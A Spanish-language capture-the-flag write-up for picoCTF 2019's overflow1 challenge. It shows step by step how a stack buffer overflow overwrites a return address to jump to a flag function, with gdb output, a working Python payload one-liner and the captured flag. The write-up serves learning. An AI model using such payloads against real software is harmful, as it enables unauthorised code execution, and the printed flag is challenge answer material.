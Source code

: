 Overflow1
============
###### You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln) ? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln.c).
---
El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos `file *` 
```
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```
Veamos que hace el programa.
```
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```
Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado.
Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln.c)

``` C
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```
- Algunos detalles de assembly antes de seguir.

| register | architecture | descripcion |
| :-------:| :----------: | :-----------|
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | <Instruction pointer register> |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | <Base pointer register> |


Siguiendo con el fuente, nos encontramos con un buffer de 64, haciendo la prueba de fuego.
```
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```
Vemos que no pasa nada, ya que los siguientes 4 bits guardaran la data que tenga el registro `%ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `%eip`).

Lo explica Dhaval Kapil en su brutal [articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Sumaremos los 4 bytes de %eip y los 4 bytes de %ebp, se los agregamos a los 64 del buffer
```
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```
Obtenemos el overflow, bien.

Saquemos la direccion en memoria de la funcion `flag`, con gdb, objdump, ida.. Usa el de preferencia.
```
gdb ./vuln
info functions
...
0x080485e6  flag
...
```
Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian)
Esto decidirá como va a leer nuestro programa el procesador.

Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

i.e: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`
```
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```
¿Por que habrá salido dos veces la instrucción?
```
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```
```
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```
Revisando en gdb no he entendido por que, pero seguiré investigando.

Aún no hemos llegado a la dirección de la función `flag`
```
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```
Si intentamos `"A"*73` vemos esto:
```
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```
##### Hemos cambiado el registro que direcciona!!

Why do this :0?
- Lo mismo que pasaba arriba con el registro `%ebp` pasa aca, asi que tenemos 4 bytes que debemos sumarle al buffer actual.
```
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```
`Woah, were jumping to 0x80485e6 !`
Y ahí lo tenemos, estamos en la dirección de la función `flag`

Si lo corremos en la shell de picoCTF
```
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```
##### picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}
